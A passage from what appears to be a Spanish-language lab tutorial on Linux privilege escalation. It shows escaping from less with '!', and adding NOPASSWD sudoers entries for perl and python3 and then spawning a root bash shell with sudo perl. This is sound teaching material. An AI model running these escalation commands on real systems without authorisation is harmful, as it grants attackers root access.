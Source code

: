 ```bash
root@<hostname>:/home/Metahumo#
```

**Explicación:**  
Dentro de `less`, el símbolo `!` permite ejecutar comandos del sistema. Al estar ejecutando `less` con permisos de root, la shell resultante también tiene esos privilegios.

---

## 10. Abusando de permisos sudo con `perl`

**Acción (como root):**

```bash
nano /etc/sudoers
```

Añadir:

```bash
Metahumo ALL=(ALL) NOPASSWD: /usr/bin/perl
```

**Explicación:**  
Permitimos que el usuario `Metahumo` pueda ejecutar `perl` como superusuario.

**Acción (como Metahumo):**

```bash
su Metahumo
sudo perl -e 'exec "/bin/bash";'
```

**Resultado:**

```bash
root@<hostname>:/home/Metahumo#
```

**Explicación:**  
Utilizamos Perl para ejecutar directamente una shell (`/bin/bash`). Al estar bajo `sudo`, esta shell hereda privilegios de root.

---

## 11. Abusando de permisos sudo con `python`

**Acción (como root):**

```bash
nano /etc/sudoers
```

Añadir:

```bash
Metahumo ALL=(ALL) NOPASSWD: /usr/bin/python3
```
